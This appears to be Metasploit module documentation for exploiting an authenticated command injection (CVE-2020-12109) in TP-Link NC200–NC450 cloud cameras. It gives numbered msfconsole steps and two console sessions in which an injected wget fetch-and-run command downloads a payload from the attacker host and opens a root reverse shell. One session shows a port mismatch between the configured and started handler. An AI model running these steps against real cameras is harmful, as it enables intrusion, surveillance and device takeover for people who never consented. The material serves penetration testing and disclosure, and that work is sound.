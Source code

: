 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230,
NC250, NC260, NC450) are vulnerable to an authenticated command
injection. In all devices except NC210, despite a check on the name
length in `swSystemSetProductAliasCheck`, no other checks are in place
in order to prevent shell metacharacters from being introduced. The
system name would then be used in `swBonjourStartHTTP` as part of a
shell command where arbitrary commands could be injected and
executed as root. NC210 devices cannot be exploited directly via
`/setsysname.cgi` due to proper input validation. NC210 devices are
still vulnerable since `swBonjourStartHTTP` did not perform any
validation when reading the alias name from the configuration file.
The configuration file can be written, and code execution can be
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps

-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:

1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]`
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
### USERNAME

The web interface username

### PASSWORD

The web interface password for the specified username

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:6666 
[*] Authenticating with admin:YWRtaW4= ...
[+] Logged-in as admin
[+] Got cookie: t46af69kmher6f9
[+] Got token: g3cgt74qi0li8rd
[*] Using URL: http://0.0.0.0:8080/UzN4UMl7PF9
[*] Local IP: http://10.0.2.15:8080/UzN4UMl7PF9
[*] Executing command: wget -qO /tmp/jxVywWSo http://192.168.0.254:8080/UzN4UMl7PF9;chmod +x /tmp/jxVywWSo;/tmp/jxVywWSo;rm -f /tmp/jxVywWSo
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:6666 -> 192.168.0.1:60141) at 2020-09-16 18:58:02 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

```

Target = 1 (TP-Link NC260, NC450)

```
msf > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: s8ee6m830juadua
[+] Got token: kad9grok1ap37li
[*] Using URL: http://0.0.0.0:8080/Le4r7p9x
[*] Local IP: http://10.0.2.15:8080/Le4r7p9x
[*] Executing command: wget -qO /tmp/MzczOZUl http://192.168.0.254:8080/Le4r7p9x;chmod +x /tmp/MzczOZUl;/tmp/MzczOZUl;rm -f /tmp/MzczOZUl
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:5555 -> 192.168.0.1:40216) at 2020-09-16 19:00:34 -0400
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Server stopped.
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
